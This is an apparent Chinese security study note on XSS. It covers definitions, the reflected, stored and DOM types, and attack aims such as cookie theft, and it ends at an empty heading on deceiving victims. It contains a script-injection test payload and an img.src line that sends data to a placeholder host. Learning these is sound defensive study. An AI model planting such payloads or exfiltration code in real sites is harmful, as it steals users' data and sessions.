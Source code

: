 +++
title = "XSS注入"
date = 2021-06-12

[taxonomies]
categories = ["安全"]
+++

# XSS跨站脚本攻击定义
跨站脚本攻击（Cross Site scripting）是指攻击者利用网站程序对用户**输入过滤不足**，输入可以显示在页面上对其他用户造成影响的HTML和javascript代码，从而**盗取用户资料**、利用某种身份进行某种动作或者对访问者**进行病毒侵害**

的一种攻击方式。<br />![截屏2021-06-13 下午8.07.15.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623586047182-4b1866b4-d0e2-425a-9b26-952d134e8290.png#align=left&display=inline&height=158&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-13%20%E4%B8%8B%E5%8D%888.07.15.png&originHeight=158&originWidth=730&size=31885&status=done&style=none&width=730)<br />如上代码的主要作用是获取用户输入的参数作为用户名，并在页面中显示“welcome,XXX”的形式。<br />若在URL后输入 ?name=baz 则页面返回 welcome,baz! 若输入 ?name=<script>alert(/hack by baz/)<script> 则会弹窗 hack by baz 。
# XSS漏洞分类

- 反射型XSS
   - 反射型XSS只是简单地将用户输入的数据直接或未经完善的安全过滤就在浏览器中进行输出，导致输出的数据中存在可被浏览器执行的代码数据。由于此种类型的跨站代码存在于URL中，所以黑客通常需要通过诱骗或加密变形等方式将存在恶意代码的链接发给用户，只有用户点击以后才能使得攻击成功实施。
   - 嵌入iframe（点击劫持、钓鱼等）
- 存储型XSS
   - 存储型XSS脚本攻击是指由于web应用程序对用户输入数据过滤的不严格，导致web应用程序将黑客输入恶意跨站攻击数据信息保存在服务端的数据库或其他文件形式中，当网页进行数据查询展示时，会从数据库中获取数据内容，并将数据内容在网页中进行显示，进而导致跨站脚本代码的执行。
   - 存储型XSS脚本攻击最为常见的场景就是在留言板、博客或新闻发布系统中，恶意代码的数据信息直接写入文章、评论、留言中，浏览时会执行相应的脚本代码。
- DOM型XSS
   - 基于DOM的XSS跨站脚本攻击是通过修改页面的DOM节点数据信息而形成的XSS跨站脚本攻击。不同于反射型XSS和存储型XSS，基于DOM的XSS跨站脚本攻击往往需要针对具体的JavaScript DOM代码进行分析，并根据实际情况进行XSS跨站脚本攻击的利用。
# XSS攻击方式

- XSS盗取用户信息
- XSS盗取cookie
- XSS钓鱼攻击
- XSS蠕虫攻击
## 浏览器的同源策略

- 相同协议
- 相同域名
- 相同端口
## 跨域提交

- img=new Image();
- img.src="http://www.xxx.com/get.asp?message="+msg
## 如何诱骗对方
